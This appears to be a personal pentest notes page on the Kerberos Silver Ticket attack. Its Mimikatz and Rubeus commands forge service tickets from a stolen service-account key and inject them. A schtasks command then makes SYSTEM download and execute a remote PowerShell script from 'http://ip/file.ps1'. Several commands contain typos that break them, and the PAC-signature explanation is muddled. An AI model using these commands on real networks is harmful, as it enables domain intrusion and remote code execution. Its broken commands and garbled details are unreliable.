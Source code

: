 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#mimikatz #schtasks #klist
- STs are encrypted with the service user's key derived from it's password.
- If we have this key, we can forge ST's for any service running under that user. These tickets are called Silver Tickets.
- Way more silent and powerful compared to the Golden Ticket attack because we are not interacting with the Domain Controller. We only interact with the service.
- A trade-off of this attack is that, the persistence duration is less than of the Golden Ticket attack, as the machine account (response for running services like win-rm, smb etc.) usually has a password rotation duration of 30 days.
- The key can be dumped from the lsass process memory or by [Kerberoast](Kerberoast.md), or dumping the entire AD Database (NTDS.dit file)
- The PAC is signed with the `krbtgt`'s account, hence a fake signature is used to create the PAC. The PAC signature is not verified if the the ticket is less than 20 minutes old. We can also add more privilege to the PAC, as it is not verified. For example, we can modify the PAC user group to include the `Domain Admins`. 
### Mimikatz
- Mimikatz can be used to forge silver tickets
```powershell
# Create silver ticket to list shares on the machine
kerberos::golden
	/user:administrator # username for which ST is generated
	/domain:<domain> # fqdn of the domain
	/sid:<sid> # sid of the domain
	/target:<server> # fqdn of the target server
	/service<service> # SPN of the service for which ST will be generated
	/aes256:<key> # aes key of the service account
	/id:<id> /group:<group> # Optional ID and groups
	/ptt # inject the ticket in current session
	# or
	/ticket # save the ticket on disk
	

# Create silver ticket to gain remote execution on the machine.
# set /service:HOST, this allows to schedule tasks on the machine.
kerberos::golden /domain:mydomain.local /sid:<domain-sid> /target:<targetmachine-FQDN> /service:HOST /rc4:<key> /user:Administrator /ptt
# verifiy with klist
klist
# shchedule the malicious task
schtasks /create /S machine.mydomain.local /SC Weekly /RU "NT Authoririty\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex(New-Object Net.WebClient).DonwloadString(''http://ip/file.ps1''')'"
# Run the task
schtasks /Run /S machine.mydomain.local /TN "STCheck"
```
### Rubeus
```powershell
Rubeus.exe
	silver
	/service:<spn> # SPN of the service
	/aes256:<key> # kerberos key of the service account of the above service
	/user:<username> # username for which the service account is created
	/ldap # make ldap queries to fetch details
	/ptt # Inject the key in current process memory
	[/printcmd] # print the rubues command to crate the same ticket with information fetched from ldap
```
### Services
- `HTTP` for WIM-RM
- `cifs` for SMB
- `HOST` for scheduling tasks
- `RPCSS` and `HOST` or WMI